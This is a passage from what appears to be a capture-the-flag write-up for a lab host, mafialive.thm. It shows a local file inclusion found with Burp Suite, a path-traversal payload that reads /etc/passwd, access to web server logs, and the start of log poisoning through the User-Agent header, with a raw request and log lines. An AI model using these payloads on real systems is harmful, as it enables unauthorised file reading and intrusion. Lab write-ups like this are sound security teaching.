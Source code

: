 Try to see the button function
<img width="1115" height="206" alt="image" src="https://github.com/user-attachments/assets/68a877e4-5fa3-49ce-b263-57382bd78d0b" />

Oooh we can now try to find the function of the button.


> Turn on the proxy and try to use burp suite to cpture the requests.
> On this page, we can't see much except a button which when clicked prints "Control is an illusion". But if we see closely, then when we click on the button the parameter ?view=/var/www/html/development_testing/mrrobot.php gets added to the URL. The entire path of the page mrrobot.php is provided over here which appears to be a bit odd because normally relative paths can be used.
{: .prompt-tip }

## Initial access

```
GET /test.php?view=/var/www/html/development_testing/mrrobot.php HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Android x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://mafialive.thm/test.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
> This redirect me to /var/www/html/....
> This is the hint to have LFI.
{: .prompt-danger }

/var/www/html/development_testing/..//..//..//..//..//etc/passwd

Try to access
```
Log files
/var/log/apache2/access.log
/var/log/nginx/access.log

all have been access well.
```

## Prove the exploit

LOG POISONING
Play with User agent by change it to android
```
User-Agent: Mozilla/5.0 (X11; Android x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
```
```
10.6.37.116 - - [12/Jul/2025:12:36:12 +0530] "GET /test.php HTTP/1.1" 200 473 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.6.37.116 - - [12/Jul/2025:12:36:14 +0530] "GET /test.php?view=/var/www/html/development_testing/mrrobot.php HTTP/1.1" 200 485 "http://mafialive.thm/test.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.6.37.116 - - [12/Jul/2025:12:41:59 +0530] "GET /test.php?view=/var/www/html/development_testing/mrrobot.php HTTP/1.1" 200 486 "http://mafialive.thm/test.php" "Mozilla/5.0 (X11; Android x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
```
